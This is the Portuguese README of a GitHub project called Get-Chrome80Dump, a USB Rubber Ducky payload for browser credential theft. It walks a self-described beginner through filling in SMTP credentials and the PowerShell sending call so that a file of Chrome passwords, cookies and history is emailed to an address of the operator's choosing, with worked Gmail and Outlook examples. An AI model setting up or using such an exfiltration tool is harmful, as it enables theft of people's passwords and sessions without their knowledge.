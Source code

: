 # Get-Chrome80Dump
Demonstração de um Rubber Duck que captura algumas informações do navegador. 

## Explicacao para mim que sou iniciante ;)
Você deve substituir alguns valores no código na parte que configura o envio do e-mail, especificamente dentro da classe `Email` em C#. Estes valores incluem suas informações de login de e-mail, servidor SMTP, porta, e outros detalhes relacionados ao envio do e-mail. Vamos ver o que exatamente você precisa modificar:

### Localize a Parte do Código a Ser Modificada
Essa parte do código está perto do final, dentro do bloco `metodoEmail`, que contém o código C#:

```csharp
private static string _usuario = "USUARIO DO EMAIL"; //ALTERE
private static string _senha = "SENHA DO EMAIL"; //ALTERE
private static string _smtp = "SMTP"; //ALTERE
private static int _porta = PORTA; //ALTERE
```

### O Que Modificar:

1. **_usuario**: Substitua `"USUARIO DO EMAIL"` pelo seu endereço de e-mail.
   - Exemplo: `"meuemail@gmail.com"`

2. **_senha**: Substitua `"SENHA DO EMAIL"` pela senha do seu e-mail.
   - Exemplo: `"minhasenha123"`

   - **Nota importante**: Para muitos provedores de e-mail (como Gmail), você não pode simplesmente usar a senha normal da sua conta. Você precisará criar uma **senha de aplicativo** se estiver usando autenticação de dois fatores (2FA). Por exemplo, no Gmail, você pode gerar uma senha específica para aplicativos que pode ser usada aqui.

3. **_smtp**: Substitua `"SMTP"` pelo servidor SMTP do seu provedor de e-mail.
   - Para o Gmail, use: `"smtp.gmail.com"`
   - Para o Outlook, use: `"smtp-mail.outlook.com"`

4. **_porta**: Substitua `PORTA` pela porta SMTP correta para seu provedor de e-mail.
   - Para o Gmail (SSL), use: `465`
   - Para o Gmail (TLS), use: `587`
   - Para o Outlook, use: `587`

### Exemplo Completo:
Aqui está como ficaria se você estivesse usando uma conta do Gmail:

```csharp
private static string _usuario = "meuemail@gmail.com"; // Seu endereço de e-mail
private static string _senha = "minhasenhaespecial"; // A senha de aplicativo ou a senha do seu e-mail
private static string _smtp = "smtp.gmail.com"; // Servidor SMTP do Gmail
private static int _porta = 587; // Porta TLS do Gmail (ou 465 para SSL)
```

### Modificar os Detalhes do Envio do E-mail:
Na chamada de método `Enviar`, você também deve substituir os seguintes parâmetros:

```powershell
$EnviaEmail.Enviar("NOME DO REMETENTE", "REMETENTE", "DESTINATÁRIO", "ASSUNTO", "TEXTO DO EMAIL", $OutFile)
```

Aqui está o que você deve modificar:

1. **"NOME DO REMETENTE"**: Substitua pelo nome que você quer que apareça como remetente do e-mail.
   - Exemplo: `"Seu Nome"`

2. **"REMETENTE"**: Substitua pelo seu endereço de e-mail (o mesmo que em `_usuario`).
   - Exemplo: `"meuemail@gmail.com"`

3. **"DESTINATÁRIO"**: Substitua pelo e-mail do destinatário (ou seja, o e-mail para o qual você deseja enviar os dados).
   - Exemplo: `"emaildoreceptor@gmail.com"`
   - **Nota**: Se você quiser enviar para mais de um destinatário, pode separar os e-mails por ponto e vírgula, como `"email1@gmail.com;email2@gmail.com"`.

4. **"ASSUNTO"**: Substitua pelo assunto do e-mail.
   - Exemplo: `"Relatório de Dados do Chrome"`

5. **"TEXTO DO EMAIL"**: Substitua pelo conteúdo do e-mail que você deseja enviar.
   - Exemplo: `"Segue o relatório de extração dos dados do Chrome."`

### Exemplo Completo:

Aqui está como a linha ficaria após todas as substituições:

```powershell
$EnviaEmail.Enviar("Seu Nome", "meuemail@gmail.com", "emaildoreceptor@gmail.com", "Relatório de Dados do Chrome", "Segue o relatório de extração dos dados do Chrome.", $OutFile)
```

### Considerações Finais:

- Certifique-se de que seu provedor de e-mail permite envios de SMTP. No caso do **Gmail**, por exemplo, pode ser necessário habilitar o "Acesso a apps menos seguros" ou usar uma senha de aplicativo.
- Verifique também a política de segurança do seu provedor de e-mail para garantir que ele permita esse tipo de acesso programático.

Após essas modificações, o código deverá enviar o arquivo `Chrome80Dump.txt` (contendo senhas, cookies, e histórico do Chrome) para o e-mail especificado.
